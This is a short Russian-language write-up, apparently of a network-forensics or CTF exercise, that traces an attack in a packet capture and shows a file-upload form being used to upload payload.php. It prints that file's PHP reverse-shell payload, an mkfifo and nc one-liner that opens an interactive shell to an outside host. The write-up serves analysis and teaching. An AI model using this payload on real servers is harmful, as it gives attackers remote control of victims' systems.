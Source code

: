 История начинается с установления TCP
![handshake](screenshots/02.handshake.png)

http история обращений `ip.src==192.168.170.145 && http` выглядит так
![http](screenshots/03.http.png)

В форму загрузки файлов, загружается **payload.php**, содержащий **reverse  shell**  
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
![reverse](screenshots/04.reverse.png)
